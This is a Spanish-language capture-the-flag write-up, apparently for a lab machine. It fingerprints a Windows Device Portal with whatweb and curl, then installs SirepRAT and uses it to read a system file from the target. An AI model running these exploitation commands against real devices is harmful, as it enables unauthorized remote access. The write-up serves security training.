 ### Analyzando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.204:8080
```

Es un Windows Device Portal con un HTTPapi y un WWW-Athentication.

#### Checkear la web {-}

Si entramos en la url 
```bash
 http://10.10.10.204:8080 
```
, Vemos un panel basic authentication.


#### Checkeando la cavezera con curl {-}

```bash
curl -s -X GET "http://10.10.10.204:8080"
curl -s -X GET "http://10.10.10.204:8080" -I
```

Vemos en la cabezera que el basic-auth es sobre un 
```bash
 Windows Device Portal 
```

Buscamos si existe una vulnerabilidad asociada en google poniendo 
```bash
 Windows Device Portal github exploit 
```
 y encontramos
una pagina interesante de [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT) que nos permitiria ejecutar RCE.
## Vulnerability Assessment {-}

### Windows Device Portal {-}

```bash
git clone https://github.com/SafeBreach-Labs/SirepRAT
cd SirepRAT
python3 setup.py install
pip install -r requirements.txt

python3 SirepRAT.py
```

Intentamos leer un archivo de la maquina victima

```bash
python3 SirepRAT.py 10.10.10.204 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
```
